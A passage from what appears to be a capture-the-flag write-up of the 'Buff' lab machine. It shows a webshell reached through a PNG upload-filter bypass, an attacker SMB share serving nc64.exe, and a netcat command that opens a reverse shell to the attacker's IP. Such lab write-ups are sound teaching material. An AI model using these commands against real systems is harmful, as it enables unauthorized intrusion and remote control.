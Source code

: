 You can see that each response starts with the magic bytes for a PNG image file, which is part of the upload filter bypass. I’ll look at the exploit more in Beyond Root.

Because the script is just sending requests to the simple webshell, there’s no state, so I can’t change directories. I can still get `user.txt` from here:

```

C:\xampp\htdocs\gym\upload> type \users\shaun\desktop\user.txt
�PNG

e9ff7f33************************

```

### nc64.exe

This shell gets a bit frustrating after a while, so I upgraded to `nc64.exe`. I started by running `smbserver.py` in the directory where I keep `nc64.exe`:

```

root@kali:/opt/shells/netcat# smbserver.py share . -smb2support -username df -password df
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

For modern Windows, I’ll have to set a username and password.

Now I’ll map that share from Buff:

```

C:\xampp\htdocs\gym\upload> net use \\10.10.14.20\s /u:df df
�PNG

The command completed successfully.

```

Now copy `nc64.exe` to `programdata`, and connect back with a shell:

```

C:\xampp\htdocs\gym\upload> copy \\10.10.14.20\share\nc64.exe \programdata\nc.exe
�PNG

        1 file(s) copied.
        
C:\xampp\htdocs\gym\upload> \programdata\nc.exe -e cmd 10.10.14.20 443

```
